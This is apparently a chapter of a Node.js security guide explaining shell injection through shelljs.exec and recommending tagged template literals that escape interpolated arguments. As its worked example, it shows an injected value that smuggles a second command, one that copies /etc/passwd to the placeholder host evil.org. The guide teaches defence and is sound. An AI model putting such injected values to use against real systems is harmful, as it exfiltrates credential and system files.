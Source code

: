 # Shell injection

Threats: [SHP][]

The [`shelljs`][] module allows access to the system shell.  We focus
on `shelljs`, but similar arguments apply to builtins like
[`child_process.spawn(cmd, { shell: ... })`][cp.spawn] and similar
modules.

`shelljs` has some nice programmatic APIs for common shell commands
that escape arguments.

It also provides `shell.exec` which allows full access to the shell
including interpretation of shell meta characters.

Solving [shell injection][SHP] is a much harder problem than query
injection since shell scripts tend to call other shell scripts, so
properly escaping arguments to one script doesn't help if the script
sloppily composes a sub-shell.  The problem of tools that trust their
inputs is not limited to shell scripts: see discussion of image decoders
in [BOF][].  The [shell grammar][] has more layers of interpretation than
the SQL grammar.

We can do much better though.

```js
shelljs.exec("executable '" + x + "'")
```

is much more problematic than either of

```js
shelljs.exec`executable ${x}`

shelljs.exec`executable "${x}"`
```

The latter two know which strings come from the developer:
`["executable "]`, and which are inline expressions: `x`.
By properly escaping `x` we prevent a single
point of failure where an attacker who can cause

```js
x = " '; scp /etc/passwd evil@evil.org/; echo ' ";
```

causes execution of the following script

```js
executable ' '; scp /etc/passwd evil@evil.org/; echo ' '
```

The accompanying example code (TODO link) includes a tag
implementation for `sh` and `bash` that recognizes nesting
contexts including double and single quoted strings, *heredoc*
streams, and sub-shells like `$(...)` and <code>&#96;...&#96;</code>.

[shell grammar]: http://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_10
[`shelljs`]: https://www.npmjs.com/package/shelljs
[cp.spawn]: https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options
[SHP]: ../chapter-1/threat-SHP.md
[BOF]: ../chapter-1/threat-BOF.md

